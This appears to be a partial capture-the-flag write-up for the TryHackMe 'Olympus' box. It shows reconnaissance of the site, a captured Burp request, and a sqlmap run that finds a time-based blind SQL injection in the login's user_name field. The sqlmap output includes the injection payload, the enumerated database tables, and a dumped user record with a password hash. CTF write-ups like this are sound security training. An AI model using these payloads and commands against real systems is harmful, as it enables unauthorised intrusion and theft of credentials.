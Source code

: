 <h3>http://olympus.thm</h3>
<p>- Olympus v2<br>
- under developpment<br>
- root@the-it-department</p>

![image](https://github.com/user-attachments/assets/6c601d90-db9c-45d3-b864-05949c980b7a)

<h3>http://olympus.thm/~webmaster/admin/ --> http://olympus.thm/~webmaster/index.php</h3>
<p>- Gods and Godess<br>
- 900 * 300<br>
- wordlist<br>
- Victor Alagwu
</p>

![image](https://github.com/user-attachments/assets/6f783828-a123-4b54-8c76-8b31f47449cc)

![image](https://github.com/user-attachments/assets/cd6ba025-f71a-448b-9e41-58a803329f94)

<h3>Burp Suite</h3>

![image](https://github.com/user-attachments/assets/7d40c041-4db0-4458-a81d-c053b3468fa6)

<p>saved <code>re</code></p>


<h3>sqlmap</h3>
<p>- <code>user_id</code> : <code>3</code><br>
- <code>user_name</code> : <code>prometheus</code><br>
- <code>user_firstname</code> : <code>prometheus</code><br>
- <code>user_lastname</code> : <code> </code><br>
- <code>user_email</code> : <code>prometheus@olympus.thm</code><br>
- <code>user_role</code> : <code>User</code><br>
- <code>user_password</code> : <code>$2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C</code><br><br>

- <code>user_name</code> : <code>root</code><br> </p>

```bash
:~# sqlmap -r re --dump -batch
...
sqlmap identified the following injection point(s) with a total of 145 HTTP(s) requests:
---
Parameter: user_name (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user_name=admin' AND (SELECT 4441 FROM (SELECT(SLEEP(5)))uMcZ) AND 'SfSs'='SfSs&user_password=admin&login=
---
...
[INFO] the back-end DBMS is MySQL
...
back-end DBMS: MySQL >= 5.0.12
...
[INFO] fetching tables for database: 'olympus'
[INFO] fetching number of tables for database 'olympus'
[INFO] retrieved: 6
[INFO] retrieved: categories
[INFO] retrieved: chats
[INFO] retrieved: comments
[INFO] retrieved: flag
[INFO] retrieved: posts
[INFO] retrieved: users
[INFO] fetching columns for table 'users' in database 'olympus'
[INFO] retrieved: 9
[INFO] retrieved: user_id
[INFO] retrieved: user_name
```